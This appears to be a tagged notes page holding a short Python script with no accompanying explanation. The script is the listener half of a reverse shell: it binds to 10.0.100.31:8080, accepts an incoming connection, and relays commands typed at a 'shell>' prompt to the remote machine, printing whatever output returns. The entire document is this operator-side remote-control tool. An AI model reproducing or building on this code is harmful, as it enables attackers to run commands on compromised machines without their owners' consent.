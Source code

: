 Tags: [[Programming]] [[Python]] [[Cybersecurity]] #CyberSecurity #Programming

```Python
import socket

def connect ():
    s = socket.socket()
    s.bind(("10.0.100.31",8080))
    s.listen(1)
    conn, addr = s.accept()
    print('[+] we got a connection from', addr)

    while True:
        command = input("shell> ")
        if 'terminate' in command:
            conn.send('terminae'.encode())
            conn.close()
            break
        else:
            conn.send(command.encode())
            print(conn.recv(1024).decode())


def main():
    connect()

main()

```
